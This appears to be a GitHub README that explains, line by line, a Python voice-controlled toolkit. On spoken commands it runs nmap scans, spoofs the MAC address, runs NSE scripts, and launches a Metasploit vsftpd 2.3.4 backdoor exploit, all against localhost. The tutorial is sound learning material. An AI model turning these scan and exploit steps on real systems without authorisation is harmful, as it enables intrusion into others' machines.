 # Voice-Controlled-Cybersecurity-Toolkit-using-Python
This program integrates voice recognition, text-to-speech, and networking utilities to automate tasks such as scanning for open ports, changing MAC addresses, and running system exploitation commands

 It uses Python libraries pyttsx3 for speech synthesis, speech_recognition for recognizing spoken words, and subprocesses for running system commands. Below is a detailed explanation of each line of the program, followed by a formatted report.

1. Import Libraries:-
  import pyttsx3
  import subprocess
  import speech_recognition as sr
  import random
  pyttsx3: A text-to-speech library used to convert text into speech. It's initialized later to "speak" messages.

  subprocess: Used to run system-level commands like nmap, ifconfig, and msfconsole.

  speech_recognition: A library for recognizing speech and converting it into text.

  random: Used to generate random values, in this case for generating a random MAC address.

2. Text-to-Speech Initialization:

   engine = pyttsx3.init()
   Initializes the pyttsx3 engine, which will allow the program to speak using text-to-speech functionality.


3. Speech Recognizer Initialization:
   
   r = sr.Recognizer()
   Initializes the recognizer object from the speech_recognition library, which will listen to the microphone input.

4. Random MAC Address Generator:

   def random_mac():
    return "02:%02x:%02x:%02x:%02x:%02x:%02x" % tuple(random.randint(0x00, 0xFF) for _ in range(6))
   
  This function generates a random MAC address in the format 02:xx:xx:xx:xx:xx where each xx is a random hexadecimal number between 00 and FF.
  
5. Main Logic - Listening and Responding:

   with sr.Microphone() as source:
    print("Talk")
    audio_text = r.listen(source)
    print("Time over, thanks")

    This block captures audio input from the microphone. When you speak, it listens until there is a pause and then stops listening. It prints "Talk" to indicate       the start and "Time over, thanks" when it finishes listening.

6. Recognizing Speech:

   try:
    final = r.recognize_google(audio_text)
    print("Text: " + final)
    final = final.lower()
   This converts the audio input into text using Google’s speech recognition API. The recognized speech is printed and then converted to lowercase for easier          comparison.

7. Command Handling:

   if "start scanning" in final:
    engine.say("Starting network scan")
    engine.runAndWait()
    subprocess.run(['nmap', '127.0.0.1', '-p-'])

    If the recognized speech contains the phrase "start scanning", the program will use the pyttsx3 engine to say "Starting network scan". Then, it runs nmap to        scan all ports (-p-) on the local machine (127.0.0.1).

8. MAC Address Change:

   elif "mac change" in final:
    engine.say("Changing MAC address")
    engine.runAndWait()
    interface = "eth0"  # Change to your actual interface
    new_mac = random_mac()
    subprocess.run(['sudo', 'ifconfig', interface, 'down'])
    subprocess.run(['sudo', 'ifconfig', interface, 'hw', 'ether', new_mac])
    subprocess.run(['sudo', 'ifconfig', interface, 'up'])
    print(f"MAC address changed to {new_mac}")


    If the speech contains "mac change", the program tells the user "Changing MAC address". Then, it generates a random MAC address and changes the MAC address of       a network interface (like eth0). The program runs a series of system commands using ifconfig to disable the interface, change its MAC address, and enable it       again.

9. System Hacking:
    elif "system hacking" in final:
    engine.say("Starting full network enumeration and exploitation")
    engine.runAndWait()

    If the speech contains "system hacking", the program announces it’s starting a network enumeration and exploitation process.

10. Nmap Aggressive Scan:

     subprocess.run(['nmap', '-A', '-T4', '127.0.0.1', '-oN', 'nmap_full_scan.txt'])

     This command runs a comprehensive nmap scan on the local machine (127.0.0.1) to find open ports, services, and other information (-A for aggressive scanning, -    T4 for faster scans). The results are saved to a file called nmap_full_scan.txt.

11. Parsing Scan Results:

     services = []
     with open('nmap_full_scan.txt', 'r') as f:
     lines = f.readlines()
    for line in lines:
      if "/tcp" in line and "open" in line:
          print("[+] Open Port Line:", line.strip())
          parts = line.strip().split()
          if len(parts) >= 3:
              service = parts[2]
              services.append(service)

      This section reads the nmap_full_scan.txt file, identifies lines that contain open TCP ports, and extracts the service information (such as HTTP, FTP,             etc.). It collects these services for further processing.

12. Running NSE Scripts for Services:

    for service in services:
    print(f"[+] Running NSE script scan for: {service}")
    try:
        subprocess.run(['nmap', '--script', f'{service}-*', '127.0.0.1'])
    except Exception as e:
        print(f"[-] Error scanning with script for {service}: {e}")

    For each identified service, the program attempts to run nmap with a script to gather additional details or attempt exploitation. These scripts are specific       to the identified service.

13. Launching Metasploit for Exploitation:

    msf_script = '''
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 127.0.0.1
    set RPORT 21
    exploit
    '''
    with open("exploit.rc", "w") as f:
      f.write(msf_script)
    subprocess.run(['msfconsole', '-r', 'exploit.rc'])

    If the system exploitation command is triggered, the program writes a Metasploit script for a known vulnerability in vsftpd (a version of FTP software). This      script attempts to exploit the vulnerability using Metasploit. It runs the msfconsole tool to perform the exploit.

14. Error Handling:

     except sr.UnknownValueError:
        print("Could not understand audio")
       except sr.RequestError as e:
        print(f"Could not request results; {e}")

    If the speech recognition fails, it handles errors gracefully and informs the user about the issue (e.g., it could not understand the audio or the API request     failed).







